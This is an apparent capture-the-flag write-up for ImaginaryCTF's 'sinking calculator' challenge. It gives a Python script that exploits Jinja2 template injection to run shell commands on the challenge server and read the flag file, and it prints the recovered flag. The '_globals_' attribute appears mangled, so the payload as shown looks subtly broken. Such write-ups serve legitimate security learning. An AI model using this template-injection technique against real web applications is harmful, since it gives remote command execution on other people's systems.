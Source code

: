 # sinking calculator

reading through this link https://unix.stackexchange.com/questions/92447/bash-script-to-get-ascii-values-for-alphabet

```py
import requests, base64

url = "https://sinking-calculator.chal.imaginaryctf.org/calc"
# url = "http://127.0.0.1:5000/calc"
cmd = "ls"


payload = "config.update(p='cat flag | od -A n -t o1')"
requests.get(url + '?query=' + payload)


payload = "lipsum._globals_.os.popen(config['p']).read()"
res  = requests.get(url + '?query=' + payload)

print("flag in octal :\n%s" % res.text)
```

Flag:- ```ictf{this_flag_has_three_interesting_properties_it_has_no_numbers_or_dashes_it_is_quite_long_and_it_is_quite_scary}```
